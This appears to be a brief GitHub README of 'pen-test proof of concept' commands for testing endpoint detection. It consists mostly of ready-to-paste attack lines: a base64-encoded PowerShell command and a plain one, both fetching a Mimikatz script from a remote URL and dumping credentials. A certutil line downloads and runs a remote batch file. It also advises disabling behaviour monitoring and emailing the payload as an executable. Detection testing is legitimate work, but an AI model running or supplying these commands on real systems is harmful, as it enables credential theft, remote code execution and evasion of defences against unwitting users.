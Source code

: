 # Pen-test proof of concept code 

## converting to Base64 encoded string
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command)) 

## running the encoded command with powershell
powershell.exe -encoded $Encoded

## mimikatz powershell encoded.bat win10 compatible, disable behavior monitoring to test xdr, open admin cmd prompt and paste code below
powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAHUAcwBlAHIAYwBvAG4AdABlAG4AdAAuAGMAbwBtAC8AYwBoAGEAYwBrAGMAbwAvAHAAbwBjAC8AbQBhAHMAdABlAHIALwBtAGkAbQBpAGsAYQB0AHoALgBwAHMAMQAuAHQAeAB0ACcAKQA7ACAASQBuAHYAbwBrAGUALQBNAGkAbQBpAGsAYQB0AHoAIAAtAEQAdQBtAHAAQwByAGUAZABzADsA


## original mimikatz powershell not encode win10 compatible, open admin cmd prompt and paste code below
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/chackco/poc/master/mimikatz.ps1.txt'); $m = Invoke-Mimikatz -DumpCreds; $m


## test xdr 2, open admin cmd prompt and paste code below
certutil.exe -urlcache -f https://raw.githubusercontent.com/chackco/poc/master/testxdr.bat.txt c:\testxdr.bat && c:\testxdr.bat

## you can mix and match like
save above command as batch/ convert to exe and send using email
after open email > save file and run batch/exe to test email module
